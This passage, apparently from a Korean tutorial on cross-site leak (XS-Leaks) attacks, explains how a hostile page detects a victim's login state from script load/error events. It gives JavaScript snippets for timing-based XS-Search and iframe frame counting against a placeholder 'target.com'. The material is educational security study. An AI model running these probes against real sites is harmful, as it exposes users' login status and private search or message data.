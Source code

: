 ```html
        document.body.appendChild(testScript);
      };
    </script>
  </head>
  <body>
    <h1>로그인 상태 확인 중...</h1>
  </body>
</html>
```

### 🔍 동작 원리

* `<script src="https://target.com/dashboard">` 요청을 브라우저가 보냄
* 이 요청에는 피해자의 **쿠키가 자동 포함**됨 (브라우저가 붙임)
* 서버가 응답:

  * **로그인 상태면**: HTML/SCRIPT를 응답 → 브라우저가 `load` 이벤트 발생
  * **비로그인 상태면**: 오류/리디렉션 응답 → 브라우저가 `error` 이벤트 발생

📌 브라우저가 보여주는 `load vs error` 이벤트 차이만으로 **로그인 여부 유출** 가능!

---

## 🔁 4. 다른 예시들

### 📄 (1) 검색어 유출 - XS-Search (타이밍 기반)

* 사용자가 로그인한 채로 검색 요청을 보냈을 때,
* 검색 결과가 있으면 로딩 시간이 **조금 더 길어짐**
* 공격자는 이 **응답 시간 차이**를 반복적으로 측정해서 **검색 결과에 특정 단어가 포함됐는지** 알아냄

```js
const query = "암";
const start = performance.now();
fetch(`https://target.com/search?q=${query}`).then(() => {
  const duration = performance.now() - start;
  if (duration > 300) {
    console.log("검색 결과 존재 (해당 단어 있음)");
  } else {
    console.log("검색 결과 없음");
  }
});
```

---

### 🖼️ (2) 프레임 수 유출 - Frame Counting

* `iframe`을 로드한 후, 그 안에 포함된 프레임 수를 체크해서 민감 정보 유출

```js
const iframe = document.createElement("iframe");
iframe.src = "https://target.com/messages";
iframe.onload = () => {
  setTimeout(() => {
    const frames = iframe.contentWindow.length;
    if (frames > 1) {
      alert("메시지가 하나 이상 있음!");
    } else {
      alert("메시지가 없음");
    }
  }, 1000);
};
document.body.appendChild(iframe);
```
